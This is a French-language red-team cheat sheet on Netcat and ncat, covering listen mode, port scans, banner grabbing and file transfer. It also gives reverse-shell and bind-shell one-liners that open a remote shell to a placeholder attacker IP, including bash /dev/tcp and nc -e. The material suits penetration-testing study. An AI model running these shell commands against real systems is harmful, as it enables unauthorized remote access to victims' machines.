# 🌐 NETCAT (NC) - GUIDE COMPLET RED TEAM

Netcat est souvent appelé le "couteau suisse du TCP/IP". C'est un outil extrêmement polyvalent pour lire et écrire des données sur des connexions réseau en utilisant TCP ou UDP.

## 🔥 MODES PRINCIPAUX
- **Mode Écoute (Listen)**: `nc -l -p <PORT>`
  - Met Netcat en attente de connexions entrantes sur un port spécifique.
- **Mode Connexion (Connect)**: `nc <HÔTE> <PORT>`
  - Se connecte à un hôte distant sur un port spécifique.

## ⚡ REVERSE SHELLS
Un "reverse shell" est une technique où la machine cible se connecte *en retour* à l'attaquant. C'est utile pour contourner les pare-feux.

- **Machine de l'attaquant (en écoute)**:
  ```bash
  nc -nvlp 4444
  ```
- **Machine de la victime (Linux)**:
  ```bash
  # Exécute un shell et redirige son entrée/sortie vers la machine de l'attaquant
  bash -i >& /dev/tcp/<IP_ATTAQUANT>/4444 0>&1
  ```
- **Machine de la victime (Windows)**:
  ```bash
  # Utilise l'exécutable nc.exe (doit être uploadé sur la cible)
  nc.exe -e cmd.exe <IP_ATTAQUANT> 4444
  ```

## 🛡️ BIND SHELLS
Un "bind shell" est une technique où la machine cible ouvre un port et attend que l'attaquant s'y connecte.

- **Machine de la victime (en écoute)**:
  ```bash
  # Ouvre le port 4444 et y attache un shell
  nc -nlvp 4444 -e /bin/bash
  ```
- **Machine de l'attaquant (se connecte)**:
  ```bash
  nc <IP_VICTIME> 4444
  ```

## 🚀 TRANSFERT DE FICHIERS
- **Côté réception (en écoute)**:
  ```bash
  # Attend une connexion sur le port 4444 et écrit les données reçues dans un fichier
  nc -nlvp 4444 > fichier_recu.dat
  ```
- **Côté envoi**:
  ```bash
  # Se connecte à la machine en écoute et envoie le contenu d'un fichier
  nc <IP_RECEPTION> 4444 < fichier_a_envoyer.dat
  ```

## ⚡ SCAN DE PORTS (SIMPLE)
Bien que Nmap soit meilleur pour cela, Netcat peut faire des scans rapides.
```bash
# Scanner un seul port (l'option -z ferme la connexion immédiatement)
nc -zv target.com 80

# Scanner une plage de ports
nc -zv target.com 20-30
```

## 🔍 BANNER GRABBING
Récupérer la bannière d'un service pour identifier sa version.
```bash
# Bannière d'un serveur web
printf "GET / HTTP/1.0\r\n\r\n" | nc target.com 80

# Bannière d'un serveur SSH
nc target.com 22
```

## ✨ NCAT (LA VERSION AMÉLIORÉE DE NMAP)
`ncat` est une version plus moderne de Netcat avec des fonctionnalités supplémentaires.
- **Connexions SSL/TLS**:
  ```bash
  ncat --ssl target.com 443
  ```
- **Contrôle d'accès**:
  ```bash
  # N'autoriser que les connexions depuis un sous-réseau spécifique
  ncat -l -p 4444 --allow 192.168.1.0/24
  ```
- **Exécution de commandes**:
  ```bash
  ncat -l -p 4444 --exec "/bin/bash"
  ```

---
> ⚠️ **SÉCURITÉ** : Les communications Netcat standard ne sont pas chiffrées. Utilisez `ncat --ssl` ou des tunnels (SSH, Socat) pour protéger les données sensibles.
